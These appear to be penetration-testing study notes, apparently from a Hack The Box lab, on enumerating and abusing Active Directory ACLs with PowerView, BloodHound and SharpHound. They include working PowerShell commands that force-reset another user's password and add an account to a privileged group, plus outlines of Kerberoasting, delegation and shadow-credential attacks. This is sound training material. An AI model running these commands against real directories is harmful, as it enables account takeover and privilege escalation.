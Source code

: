# Content
- [ACL Enumeration](#acl-enumeration)
  - [ACL Enumeration with Powerview](#acl-enumeration-with-powerview)
  - [ACL Enumeration with BloodHound](#acl-enumeration-with-bloodhound)
- [ACL attacks](#acl-attacks)

# ACL Enumeration
## ACL Enumeration with Powerview
- [control-access-rights list](https://learn.microsoft.com/en-us/windows/win32/adschema/control-access-rights)
- [ace-strings right list](https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings)
```powershell
# get all intersting acl but can take alot of time
Find-InterestingDomainAcl

# specify one object
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# specify one object to one target
Get-DomainObjectACL -ResolveGUIDs -Identity  "GPO Management" | ? {$_.SecurityIdentifier -eq $sid}

# Reverse Search & Mapping to a GUID Value
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

# Creating a List of Domain Users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# read from list a specfic user
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

# Investigating the Help Desk Level 1 Group with Get-DomainGroup
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

```

in here the `S-1-5-21-3842939050-3880317879-2865463114-1181` user have `User-Force-Change-Password` right on `S-1-5-21-3842939050-3880317879-2865463114-1176` user
![Screenshot_2](https://github.com/kiro6/penetration-testing-notes/assets/57776872/891252fe-052c-4e21-9034-2bbfeaa3eff6)



in here `S-1-5-21-3842939050-3880317879-2865463114-5614` have `Self-Membership` and `ReadProperty, WriteProperty, GenericExecute` on `S-1-5-21-3842939050-3880317879-2865463114-4046`
![Screenshot_2](https://github.com/kiro6/penetration-testing-notes/assets/57776872/0f2aaade-e4cc-4a62-b333-3828962e85b9)




## ACL Enumeration with BloodHound
- [SharpHound .NET](https://github.com/BloodHoundAD/SharpHound)
- [SharpHound powershell](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
- [BloodHound]([https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound/releases))
```powershell
.\SharpHound.exe -c All --zipfilename ILFREIGHT

bloodhound 
```

# ACL attacks

![Screenshot 2024-06-30 at 22-18-35 Active Directory Enumeration   Attacks](https://github.com/kiro6/penetration-testing-notes/assets/57776872/243dfde0-9db7-4c9e-a76b-85ed31054167)


## ForceChangePassword 

gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).


### Scenario: Use the `wley` user to change the password for the `damundsen` user


create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0) for `wley` using his password
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```
create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user damundsen.
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

using PowerView change the password 
```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

## GenericWrite

**gives us the right to write to any non-protected attribute on an object.** 


1) **Access over User account allows for:**
  - Targeted Kerberoasting: we could `assign them an SPN` and perform a `Kerberoasting attack` (which relies on the target account having a weak password set).
2) **Access over Group allows for:**
  - we could `add ourselves` or another `security principal` to a given group.
3) **Access over Computer user allows for:**
  - we could perform a `Kerberos Resource-based Constrained Delegation` attack.


### Scenario 1 : damundsen user have GenericWrite over Help Desk Level 1 group so we can out selves 


create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0) for `damundsen` using his password
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

using PowerView add yourslef
```powershell
# check group members
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

# add your user
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose

```

## GenericAll 

**full rights to the object**

1) **Access over User account allows for:**
   - Change the Target's Password
   - Targeted Kerberoasting: we could `assign them an SPN` and perform a `Kerberoasting attack` (which relies on the target account having a weak password set).
   - Shadow Credentials: Use this technique to impersonate a user 
2) **Access over Group allows for:**
   - we could `add ourselves` or another `security principal` to a given group.
3) **Access over Computer user allows for:**
   - we could perform a `Kerberos Resource-based Constrained Delegation` attack.
   - Shadow Credentials: Use this technique to impersonate a computer    
